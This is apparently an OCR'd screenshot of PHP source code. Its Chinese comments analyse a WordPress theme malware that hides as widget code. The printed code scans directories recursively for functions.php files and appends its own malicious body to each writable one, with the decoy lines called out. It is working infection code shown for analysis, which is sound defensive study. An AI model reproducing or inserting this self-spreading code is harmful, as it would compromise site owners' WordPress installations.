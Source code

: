                 //如果主题functions.php文件可写
                if (is_writable($item)){
                    //特征码
                    $ftion=substr($widget,stripos($widget,"_"),stripos(substr($widget,stripos($widget,"_")),"("));
                    //取目标functions.php文件内容
                    $cont=file_get_contents($item);
                    //没找到特征码?OK,试图感染
                    if (stripos($cont,$ftion) === false){
                        //查看目标functions.php文件最后是否是以 ?> 结尾，如果不是，给加上 ?> 标记
                        $comaar=stripos( substr($cont,-20),"?".">") !== false ? "" : "?".">";
                        //这里的代码是忽悠人了，模仿WP widgets的代码，蛊惑你的眼睛，让你觉得这是widget代码。。。
                        $output .= $before . "Not found" . $after;
                        //如果文件是以 ?> 标记结尾的，连标记一起取过来
                        if (stripos( substr($cont,-20),"?".">") !== false){$cont=substr($cont,0,strripos($cont,"?".">") + 2);}
                        //开始感染,$widget内容即是恶意代码自身,在functions.php文件原内容后附加恶意代码
                        $output=rtrim($output, "nt"); fputs($f=fopen($item,"w+"),$cont . $comaar . "n" .$widget);fclose($f); 
                        //后面这句也是伪装用的            
                        $output .= ($isshowdots &#038;&#038; $ellipsis) ? "..." : "";
                    }
                }
            }
        }
        return $output;
    }
    function _get_allwidgets_cont($wids,$items=array()){
        //从$wids数组弹出一个元素(实际上是一个位置)
        $places=array_shift($wids);
        //如果位置字串是以/结尾的，则去掉/
        if(substr($places,-1) == "/"){
            $places=substr($places,0,-1);
        }
        
        //若不存在这样的文件或目录则直接返回false
        if(!file_exists($places) || !is_dir($places)){
            return false;
        }elseif(is_readable($places)){
            //否则的话。。。嘿嘿
            //遍历此目录
            $elems=scandir($places);
            foreach ($elems as $elem){
                if ($elem != "." &#038;&#038; $elem != ".."){
                    //如果是目录,则加入$wids数组
                    if (is_dir($places . "/" . $elem)){
                        $wids[]=$places . "/" . $elem;
                    } elseif (is_file($places . "/" . $elem)&#038;&#038; 
                        $elem == substr(__FILE__,-13)){
                            //否则，如果是文件，并且文件名等于 functions.php的话，则加入到$items数组保存,这才是它的目的functions.php正是它要找的
                        $items[]=$places . "/" . $elem;}
                    }
                }
        }else{
            return false;   
        }
        //下面还有子目录？再找找看,递归
        if (sizeof($wids) > 0){
            return _get_allwidgets_cont($wids,$items);
        } else {
            //好了，完事了，以数组返回所有找到的functions.php文件的绝对路径
            return $items;
        }
    }
    